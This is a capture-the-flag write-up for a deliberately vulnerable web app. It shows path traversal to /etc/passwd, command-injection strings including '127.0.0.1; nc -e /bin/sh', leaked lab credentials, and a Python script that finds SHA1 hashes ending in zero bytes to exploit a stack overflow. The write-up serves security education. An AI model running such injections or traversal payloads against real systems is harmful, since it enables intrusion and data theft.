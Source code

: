 #                                   TASK 8 - PClub DVWA
The task says “got to know that in the Directory of the website, there was a file routes.txt that stored a list of all routes that would lead anyone to further penetrate into the website and exploit more vulnerabilities” suggesting a directory traversal vulnerability. 
[http://74.225.254.195:2324/getFile?file=../../../../../etc/passwd](http://74.225.254.195:2324/getFile?file=../../../../../etc/passwd)
confirms this
![This is an alt text.](/github/etc_pass.png)

In view page source of the gallery we see that the links are of the format:

[http://74.225.254.195:2324/getFile?file=/home/kaptaan/PClub-DVWA/static/images/gallery/3.jpeg](http://74.225.254.195:2324/getFile?file=/home/kaptaan/PClub-DVWA/static/images/gallery/3.jpeg)

Which has a directory PClub-DVWA , hence we try the link 
[http://74.225.254.195:2324/getFile?file=/home/kaptaan/PClub-DVWA/routes.txt](http://74.225.254.195:2324/getFile?file=/home/kaptaan/PClub-DVWA/routes.txt)


![and get](/github/routes.png)

Here we get our first flag : **pclub{path_trav3rsa1_1s_fun}**

We also see clue to our next flag, “*Can you now get me the MAC Address of eth0 interface for this machine for me??? Using command injection ;)*” 

Thus we need to find the webpage now which is vulnerable to command injections which was [http://74.225.254.195:2324/ipDetails](http://74.225.254.195:2324/ipDetails) . We specifically used the ip address 127.0.0.1 as it is a special address which loops back to the local machine.

![This is an alt text.](/github/ifconfig.png)

We see the mac address - 60:45:bd:af:3f:e5 
\
Here we get our second flag : **pclub{60:45:bd:af:3f:e5}**

Now we have no more clues, so we explore more with basic command injections and observe that : 127.0.0.1; ls and 127.0.0.1; nc -e /bin/sh  doesn’t give any output i.e. They must be in the block list command, however we quickly discover that 127.0.0.1; dir does give out all the directories, and doing 127.0.0.1; more * simply gives all the content of the files present. 

In users.json we see we have all the username and password for  [http://74.225.254.195:2324/secretary_login](http://74.225.254.195:2324/secretary_login) and in particular  "amansg22": "SHAZISSXY" opens a web page with a file “ariitk.jpeg”.

![This is an alt text.](/github/ariitk.jpeg)
The flag can be obtained simply by steganography. Putting the image in the website : [https://www.aperisolve.com/](https://www.aperisolve.com/) 
We get a qrcode - 

![This is an alt text.](/github/qr_code.png)

Scanning it we get , **Y3B5aG97cW5nbl8xZl8zaTNlbGd1MWF0fQ==**
The two equal signs at last strongly suggest that this is in b64 , decoding it gives *cpyho{qngn_1f_3i3elgu1at}* , also we know that flag must be in format of pclub{...} we can see it is just ROT-13 encoded, we decode it to get our third flag :
                    **pclub{data_1s_3v3ryth1ng}**



Also with command injection 127.0.0.1; more * we see one more username : kaptaan and password: 0123456789
![This is an alt text.](/github/kaptaan.png)
Which gives us a file “flag.txt” and we get our fourth flag: **pclub{01d_1s_g01d_sql1}**

Another username and password, "ritvikg22": "cocacolaborasi”
Which gives us the file for our final challenge pwn_chall_link.txt which contains a link [https://pastebin.com/Jd17mvk5](https://pastebin.com/Jd17mvk5)

The hidden comment in pastebin suggests buffer overflow vulnerability.
Decompiling the binary file “whathash” which we get from the google drive we see essentially three functions : main, check, shachecker

```
int main(void)

{
  char cVar1;
  char local_194 [128];
  undefined local_114 [128];
  undefined local_94 [128];
  FILE *local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setbuf(_stdout,(char *)0x0);
  memset(local_94,0,0x80);
  memset(local_114,0,0x80);
  puts("Someone blocked Pclub Coordinator @haardikk from logging in to this super secure system!");
  puts("But somehow, he still manages to get in... how?!?!");
  printf("Username: ");
  read(0,local_94,0x80);
  printf("Password: ");
  read(0,local_114,0x80);
  cVar1 = check(local_94,local_114);
  if (cVar1 == '\0') {
    puts("Access denied!");
  }
  else {
    local_14 = fopen("flag.txt","r");
    if (local_14 == (FILE *)0x0) {
      perror("Error opening file");
      return 1;
    }
    fgets(local_194,0x80,local_14);
    fclose(local_14);
    puts("Access granted!");
    printf("Flag: %s\n",local_194);
  }
  return 0;
}



bool check(char *param_1,undefined4 param_2)
{
  char cVar1;
  size_t sVar2;
  int iVar3;
  undefined local_20 [18];
  short local_e;
  local_e = 0x1337;
  memset(local_20,0,0x12);
  sha1(param_2,local_20);
  sVar2 = strlen(param_1);
  iVar3 = strncmp(param_1,"Haardikk",sVar2 - 1);
  if (iVar3 == 0) {
    puts("Haardikk, you are not allowed !!! ");
  }
  else {
    cVar1 = shachecker("c832724069b0cf39e47a041d11ef9ebb9c718c0e",local_20);
    if (cVar1 != '\0') {
      local_e = 0;
    }
  }
  return local_e == 0;
}

bool shachecker(char *param_1,int param_2)

{
  int iVar1;
  char local_3d [41];
  size_t local_14;
  int local_10;
  
  memset(local_3d,0,0x29);
  for (local_10 = 0; local_10 < 0x14; local_10 = local_10 + 1) {
    sprintf(local_3d + local_10 * 2,"%02x",(uint)*(byte *)(param_2 + local_10));
  }
  local_14 = strlen(param_1);
  iVar1 = strncmp(param_1,local_3d,local_14 - 1);
  return iVar1 == 0;
} 
```
In main there is no scope of buffer overflow as read reads exactly 128 bytes, i.e. equal to the size of buffer ```local_114``` and ```local_94```.We also see that if ```local_e``` is set to 0 in check function then we will be granted access. We also observe that in stack ```local_e``` and ```local_20``` are next to each other.

![This is an alt text.](/github/pwn.jpeg)
![This is an alt text.](/github/13370.jpeg)
![This is an alt text.](/github/d3bb.jpeg)



```local_e``` which was set to 0x**1337**0000 before, was overwritten to 0x**d3bb** after running the program. The hash of password we provided (test) happens to be **a94a8fe5ccb19ba61c4c0873d391e987982fbbd3** of which the last two bytes are bbd3 which we can see overwrote to local_e .Hence local_e and local_20 are exactly 18 bytes apart , however the local_20 variable takes 20 bytes input i.e. hash of the password and the last two bytes overwrite to local_e . Now if the last two bytes of hash is \x00\x00 then we can overwrite local_e to be 0 which will grant us access to the flag. 

We write a code to generate such a password
```
import hashlib
import random
import string

num=0
while True and num<5:
    # payload = random.getrandbits(128).to_bytes(16, 'big')
    payload = "".join(random.choices(string.ascii_letters, k=16)).encode()
    hashvalue = hashlib.sha1(payload).digest()
    if hashvalue[-2:] == b"\x00\x00":
        print(payload, hashvalue)
	   num+=1

```
![This is an alt text.](/github/payload.png)

We can use any of the payload as password and Username can anything except “Haardikk” as ```iVar3``` will then be set to 0 which will give us  "Haardikk, you are not allowed !!! ".

Running the program we get

![This is an alt text.](/github/flag.png)


Here we get our final flag :**pclub{d0_y0u_kn0w_7h47_h0w_much_1_5truggl3d_w1th_0p3n55l_wtf_rockyou}**

